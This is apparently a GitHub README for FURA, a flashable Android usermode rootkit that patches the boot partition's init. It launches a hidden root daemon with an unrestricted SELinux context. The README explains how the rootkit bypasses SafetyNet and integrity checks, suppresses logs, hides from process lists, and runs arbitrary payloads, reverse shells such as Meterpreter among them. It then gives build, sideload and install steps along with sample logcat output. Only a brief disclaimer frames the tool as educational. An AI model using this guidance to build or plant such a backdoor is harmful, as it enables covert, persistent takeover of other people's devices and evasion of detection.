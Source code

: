 # Flashable Usermode Rootkit for Android

#### A full rework of [unlocked-bootloader-backdoor-demo](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo) by LuigiVampa92

#### This is currently an experimental work. Stability is not guaranteed.

FURA is a systemless flashable backdoor installed into boot partition, particularly into _init_ binary.
On boot, it launches a system daemon with root privileges and unrestricted SELinux context, which is also hidden from process list.
Since it's operating within ramdisk, this tool can bypass most root checks, integrity checks, etc. and presumably cannot be detected without root _(not even by ADB shell)_.

Unlike its predecessor, this rootkit can bypass SafetyNet, since it doesn't need to modify system partition. \
However, it can't bypass hardware checks, such as hardware-backed SafetyNet on newer devices. 

The daemon is a custom executor (sort of a service manager) for an arbitrary payload. 
It runs silently and normally leaves no traces in _dmesg_, _logcat_, etc., unlike regular services run by _init_ in loop.

FURA uses SELinux to its own advantage: not only to bypass stock policy restrictions, but to hide itself from the rest of the system.

This tool, like its predecessor, is based on [Magisk](https://github.com/topjohnwu/Magisk) source code, but does not necessary require root or Magisk preinstalled on the device. 
It mostly uses a part of MagiskInit to patch SELinux policies.

## Features & Improvements

- Installs entirely into _/boot_, does not modify _/system_ in any way
- Operates in ramdisk without touching storage
- Employs a custom daemon to monitor payload execution
- Leaves no init logs
- Modifies SELinux policy to hide itself
- Installation and backup no longer depend on _/data_
- Cut artifacts and unused code left from Magisk

## Prerequisites

- Python 3
- Android SDK
- ADB / Fastboot tools
- Custom recovery image for your device (TWRP is recommended)
- #### **No Magisk installed on device!** &ensp; (compatibility issues cause bootloop)

## Build

_cd_ into main project directory.

Set ANDROID_SDK_ROOT variable in your shell. For example:  
```
$ export ANDROID_SDK_ROOT=/opt/android-sdk
```

Install and configure NDK:
```
$ ./build_revshell.py ndk
```

Run the build script:
```
$ ./build_revshell.py clean      # before rebuild if changed config
$ ./build_revshell.py
```

The result is a sideloadable _.zip_ package which can be installed with TWRP or other recovery.

_Note_: if using reverse shell payloads (such as ReverseSSH, Meterpreter, etc.), set your LHOST and LPORT in `config.prop` before building.

_Note_: if SELinux is _permissive_ or _off_ on the target device, you can use alternative hiding method. See `config.prop` for details.

_Note_: you can disable logging (logcat and selinux) by setting `release=True` in the end of `build_revshell.py`.


## Deploy

#### Install

Run TWRP on your device:
```
$ fastboot boot twrp.img
```

Start sideload feature in Advanced / Sideload and then run:
```
$ adb sideload zip_reverse_shell_v2.zip
```

At this moment, **do not reboot** right away. Backup original boot partition:
```
$ adb pull /tmp/backup_original_partitions .
```

Run the command **before** rebooting into system, otherwise you will not be able to uninstall this tool properly and will have to find stock boot image for your device somewhere and flash it.

Reboot into system after you have backups on your PC.

#### Uninstall

You need a backup of original partitions made during installation. Move it to _/tmp_:
```
$ adb push backup_original_partitions /tmp/
```

Start sideload feature in Advanced / Sideload and then run:
```
$ adb sideload zip_reverse_shell_uninstall.zip
```

Reboot into system.

... or you can just flash stock boot image if you have one:
```
$ fastboot flash boot boot.img
```

#### Installation scripts

There are installation scripts to automate install / reinstall process. \
Before running one, rename or symlink your TWRP image as `twrp` in your current directory.

Simply connect your device via USB and switch it into Fastboot mode.
After installation, backups will be saved automatically.

`install.sh` to install and save backup image. \
`reinstall.sh` to reinstall quickly (if you have the backup).\
`uninstall.sh` to restore original boot image from backup.

#### _Warning_: avoid double installation as it will cause bootloop!

## Test

The default payload in this repo is a dummy program that writes stuff to logcat. 

After boot is completed, you should be able to see its output:

```
$ adb logcat | grep revshell
03-18 00:34:41.732  2381  2381 D revshell_exec: Remounting /sbin to avoid mount detection ...
03-18 00:34:41.732  2381  2381 D revshell_exec: Setting up /mnt/secure/temp
03-18 00:34:41.732  2381  2381 D revshell_exec: Awaiting decryption ...
03-18 00:34:41.732  2381  2381 D revshell_exec: Decrypted. Setting persistence dir at /data/adb/.aura
03-18 00:34:46.817  2381  2381 I revshell_exec: restarting ...
03-18 00:34:46.884  3197  3197 D revshell: Start successfull!
03-18 00:34:46.885  3197  3197 D revshell: Signals are set to ignore
03-18 00:34:46.885  3197  3197 D revshell: Hey I'm a revshell process!
03-18 00:34:46.885  3197  3197 D revshell: My PID -- 3197
03-18 00:34:46.885  3197  3197 D revshell: My parent PID -- 2381
03-18 00:34:46.885  3197  3197 D revshell: My UID -- 0
03-18 00:34:46.885  3197  3197 D revshell: Awaiting encrypted FS decryption now...
03-18 00:34:51.241  2381  2381 D revshell_exec: Checking PID
03-18 00:34:51.311  3197  3197 D revshell: FS has been decrypted!
03-18 00:34:51.311  3197  3197 D revshell: Starting reverse shell now
03-18 00:34:56.242  2381  2381 D revshell_exec: Checking PID
03-18 00:34:56.312  3197  3197 D revshell: tick ! 10 seconds since process started
03-18 00:35:01.244  2381  2381 D revshell_exec: Checking PID
03-18 00:35:01.312  3197  3197 D revshell: tick ! 15 seconds since process started
```

You can disable logging (logcat and selinux) by setting `release=True` in the end of `build_revshell.py`.

## Custom payloads

To embed a custom payload, simply put your executable into `revshell/{arch}/` as `revshell`. It is not required to place executables for all archs: those where `revshell` is absent will use default payload. 

For more details on custom payloads, see [Payloads](revshell/Payloads.md).


## Acknowledgments

Thanks to LuigiVampa92 for a [great article](https://habr.com/ru/articles/541190/) on a physical access attack concept for devices with unlocked bootloader.

Thanks to topjohnwu and all Magisk maintainers for that brilliant swiss army knife for Android and a great contribution to Android modding community.

## Links

[Magisk](https://github.com/topjohnwu/Magisk) \
[unlocked-bootloader-backdoor-demo](https://github.com/LuigiVampa92/unlocked-bootloader-backdoor-demo)


## Disclaimer
    
    This tool is designed for educational purposes only. You may utilize this software solely 
    on your personal devices. Any attempt to use it on a device without explicit authorization 
    is unethical and may violate privacy laws.
    
    Using this software may result in bricking or damaging your device. Create a backup of your 
    data and stock ROM before using it.
    
    Use at your own risk. Developer is not responsible for any damage or loss caused by this tool.
